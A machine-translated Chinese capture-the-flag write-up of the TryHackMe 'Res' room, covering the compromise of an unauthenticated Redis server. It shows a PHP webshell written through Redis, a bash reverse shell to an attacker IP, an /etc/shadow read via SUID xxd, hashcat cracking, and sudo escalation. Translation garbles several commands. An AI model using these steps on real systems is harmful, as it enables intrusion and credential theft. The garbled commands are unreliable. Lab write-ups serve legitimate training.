

# THM: Res

> 原文：<https://blog.devgenius.io/thm-res-24819bd22dc7?source=collection_archive---------11----------------------->

[**https://tryhackme.com/room/res**](https://tryhackme.com/room/res)

> **在这个半指导性的挑战中，用内存中的数据结构入侵一个易受攻击的数据库服务器！**

## **[Res 是 TryHackMe 首发系列](https://tryhackme.com/hacktivities?tab=practice)的一部分**

# **任务 1 预定开始**

**首先，在启动机器之前，如果您还没有安装 redis-tools，请在自己的机器上安装它。**

> ****sudo apt-get install redis-tools****

**启动机器，请注意加载可能需要一段时间。一旦完成，继续进行 ***NMAP*** 扫描。**

> ****nmap -sC -sV -p- MachineIP****

****

**现在下一步是什么？**

> **给出的提示:redis-cli**

**我研究了一下，看看上面的命令可以运行哪些选项。**

****

**关于黑客 ***Redis，我偶然发现了 [*HackTrick 的网站*](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#redis-rce) 。*** 原来平时不需要使用凭证就可以访问服务器，下面我就是这么做的。**

> **redis-cli -h MachineIP**

****

**我忘记截屏这在我以前的尝试，因此 IP 的变化。**

**我们可以看到用户名，也许我们以后可以利用它。看着 HackTricks 网站，我看到我们可以通过 PHP 得到一个 webshell。**

****

**既然机器有 ***端口 80*** 运行 http，那就用 **/var/www/html** 试试吧。**

****

**看到我的错别字了吗？无红利(ex-dividend)**

**一旦完成，导航到你的浏览器，键入地址，看看它是否工作。**

> ****MachineIP/redis.php****

****

**现在这是工作！**

**让我们试着产生一个壳**

> ****配置集 dir /var/www/html****
> 
> ****配置设置数据库文件名 shell.php****
> 
> ****设定测试<？PHP exec(\ "/bin/bash-c ' bash-I>/dev/TCP/AttackerIP/Port 0>&1 ' \ ")；？>****

**然后，在您指定的**端口**上设置一个 **NetCat 监听器**，并前往**shell.php****

> ****MachineIP/shell.php****

****

**我们进去了！**

**让我们稳定一下我们的外壳！**

> ****python-c ' import pty；pty.spawn("/bin/sh")'****

****

****CD** 进入 Vianka 的文件夹，抢第一面旗！**

****

**我试着运行“ **sudo -l** ”，但由于我没有密码，我无法列出服务。接下来，我运行以下命令来检查 SUID**

> **find/-perm-u = s-type F2 >/dev/null**

****

****/usr/bin/xxd****

**我跳到了 [**GTFOBins**](https://gtfobins.github.io) 上，试着看看是否有什么我可以使用的**

****

**看起来有。让我们用这个得到 ***Vianka*** 的 hash。**

> ****LFILE=/etc/shadow****
> 
> ****xxd "$LFILE" | xxd -r****

****

**让我们保存哈希并破解它！启动你的 **HashCat！****

> **hashcat-m 1800-a 0 hash file/usr/share/word lists/rock you . txt-o**

********

**密码破解！让**苏**扮成**维安卡****

****

**让我们看看使用 **sudo** 可以运行什么**

****

****全部！****

**既然我们能够一起跑 sudo，现在一切都很容易。**

> ****须藤素****

****

**现在我们来抢**根**旗！**

****

**这个房间到此为止！感谢大家阅读，希望这对你有所帮助。直到下次=)**